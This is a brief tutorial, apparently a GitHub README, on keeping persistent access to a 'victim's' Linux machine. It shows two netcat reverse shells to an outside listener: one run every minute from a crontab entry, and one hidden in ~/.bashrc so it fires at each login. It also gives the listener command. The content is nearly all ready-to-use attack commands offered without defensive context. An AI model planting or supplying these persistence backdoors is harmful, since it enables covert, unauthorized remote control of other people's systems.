 #  Linux_Persistence_Techniques
Methods to be persistent in Victim's linux machine or sever.

# #  Persistence via CRONJOB 



[What is cron ?](https://kubernetes.io/docs/concepts/workloads/controllers/cron-jobs/)



## Cron Installation - 

To Install cronjob in your Linux or ubuntu machine

```bash
sudo apt-get install cron
```

To Edit CronTab File Paste this following command
```bash
crontab -e 
```
Inside Crontab file Paste this Netcat reverse shell with * * * * * .
### EXAMPLE : 
```bash
 * * * * * nc 10.0.2.15 1919 -e /bin/sh
 ```
 
Now! we all done.
This cron job will connect to a netcat listener every minute.

Lets Start Netcat Listner
```bashnc
nc -nvlp 1919
```
ALRIGHT !!!!

NOW WE GOT REVERSE SHELL EVERYSINGLE MINUTE..

# # Unix Shell Configuration



## Edit bashrc File


```bash
  nano ~/.bashrc
```

Add netcat reverse shell in this file.

```bash
 nc -e /bin/bash 10.0.2.15 1910 2>/dev/null 
 ```

 Save this file.

Now ,Whenever a user logs in to the user account, the command in the .bashrc file will be executed and will consequently provide you with a reverse shell on the netcat listener.





